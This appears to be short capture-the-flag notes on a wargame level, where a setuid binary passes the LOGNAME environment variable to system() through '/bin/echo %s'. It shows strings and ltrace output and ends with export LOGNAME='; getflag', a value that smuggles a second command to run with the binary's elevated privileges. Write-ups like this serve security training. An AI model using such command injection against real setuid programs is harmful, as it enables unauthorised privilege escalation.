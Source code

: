 -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

./level07
level07

strings level07
[...]
getenv
setresuid
system
getegid
geteuid
[...]
[^_] (?)
LOGNAME
/bin/echo %s 
;*2$"
[...]


ltrace level07
getenv("LOGNAME")                                               = "level07"

	change LOGNAME ?

export LOGNAME="; getflag"
will now execute getflag with flag07 permissions, still the same thing as before with setuid
